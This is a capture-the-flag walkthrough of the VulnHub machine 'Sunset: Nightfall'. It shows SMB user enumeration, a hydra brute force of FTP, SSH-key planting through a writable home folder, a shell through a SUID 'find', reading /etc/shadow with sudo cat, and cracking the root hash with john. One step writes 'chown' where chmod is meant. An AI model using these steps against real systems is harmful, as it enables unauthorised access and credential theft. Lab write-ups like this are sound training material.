 # Sunset: Nightfall

https://www.vulnhub.com/entry/sunset-nightfall,355/

## Initial Reconnaissance

After using `netdiscover` to find the machine, a `nmap -T4 -A -p-` returned:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.106:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:25:e1:4f:41:c6:0f:be:31:21:7b:27:e3:af:49:a9 (RSA)
|   256 38:15:c9:72:9b:e0:24:68:7b:24:4b:ae:40:46:43:16 (ECDSA)
|_  256 9b:50:3b:2c:48:93:e1:a6:9d:b4:99:ec:60:fb:b6:46 (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

nikto and dirb on the website returned nothing. the ftp server did not permit anonymous access, the smb shares had no directories set, ssh with nightfall as a user did not have an empty password (which was extremely unlikely). The mysql database was also secured.

I went through all the versions I could see, checking for vulns, and found nothing. Pretty stuck at this point, this being a wall harder than any I had faced so far.

## Getting a hint

I browsed for a hint, and found people discovering users using nmapAutomator and specifically enum4linux over the smb endpoint. I had actually seen that when I ran automator myself, that it came up with two users: nightfall, and matt:

`enum4linux -a 192.168.1.106`:

```
... snipped ...
 ======================================================================== 
|    Users on 192.168.1.106 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-1679783218-3562266554-4049818721
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\nightfall (Local User)
S-1-22-1-1001 Unix User\matt (Local User)
... snipped ...
```

So far, I haven't had to brute force any remote users, though I have obviously used rockyou in offline attacks. So, with the above accounts, I need to do a remote brute force against either the ftp or ssh accounts (I assume).

## Bruteforce and FTP

I used hydra and rockyou against the ftp with nightfall, but it didn't get anywhere. Doing the same with matt however finished almost immediately:

`hydra -l matt -P rockyou.txt ftp://192.168.1.106`:

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-15 18:27:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.106:21/
[21][ftp] host: 192.168.1.106   login: matt   password: cheese
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-03-15 18:27:38
```

I logged into FTP via the above credentials, and it appeared to be matt's home folder. There was nothing of interest in it, but I soon discovered I had the ability to write to it.

## SSH keys

Uploading keys that would allow me to SSH in seemed to be the next step (one of my coworkers pointed this out the moment he saw the ftp directory), however in order for it to work I would need to be able to set the ownership to the user, and change the permissions.

chmod was available, but nothing to chown. However, rename was available, which is effectively a poorman's move. And I discovered that if I ftp put into a file already owned by matt, it would stay owned by matt. Accordingly I:

1. Created a ssh key via `ssh-keygen` on my kali machine, sticking it inside my .ssh folder.
2. Found a useless file on the ftp server (.sh_history was empty), and put the id_rsa.pub file into it
3. Found a useless folder on the ftp server (.local contained nothing of note), and renamed it to .ssh
4. Used another rename to 'move' the .sh_history file into the new .ssh folder as 'authorized_keys'
5. Finally, used chown to set the folder to be 700 and the keys file to be 644

I found after doing this I could disconnect from ftp, and ssh right in as matt.

## Find and switching users

Browsing around (and with my coworker hovering over me), I looked for next steps. `sudo -l` failed - the user didn't have rights to do this, at least not without a password. My coworker pointed out a /scripts directory, where we found 'find', all by itself, with the suid bit set. It was owned by the other user on the machine, nightfall.

I eventually found a combination command that used find to get a shell as nightfall: after creating a file named test.txt (though any single file would likely do), this command worked: `/scripts/find test.txt -exec /bin/bash -p \;`

In this shell as nightfall, just to make my life easier, I made a .ssh dir and copied in the keys file again, allowing me to exit from the find shell and matt's ssh, and ssh in as nightfall.

## cat and john

A `sudo -l` as nightfall revealed that `/usr/bin/cat` could be run as root. There was no flag.txt under root as there had been with prior machines, so instead I promptly grabbed the passwd and shadow files, and copied them to my kali machine via scp.

Using `sudo unshadow passwd.txt shadow.txt > torip.txt` I created a combined file, then ran it with `john --wordlist=/usr/share/wordlists/rockyou.txt torip.txt`.

It took a few minutes to reveal the root password of `miguel2`, but didn't resolve matt or nightfall's passwords in a reasonable timeframe. I didn't need those anyway.

## victory

Despite having the root password, I couldn't ssh in with it. However, after re-ssh'ing with nightfall, I used `su root` and entered the cracked password to switch to root.

The flag was under /root as expected, with a different name :D

```
root@nightfall:~# cat root_super_secret_flag.txt 
Congratulations! Please contact me via twitter and give me some feedback! @whitecr0w1
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
................................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...................................................................................
..............................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.................................................................................
............................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...............................................................................
..........................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.............................................................................
........................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...........................................................................
......................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.........................................................................
....................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.......................................................................
...................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@......................................................................
..................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.....................................................................
.................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@....................................................................
................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...................................................................
................................................................&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&...................................................................
~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~
Thank you for playing! - Felipe Winsnes (whitecr0wz)                                 flag{9a5b21fc6719fe33004d66b703d70a39}
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```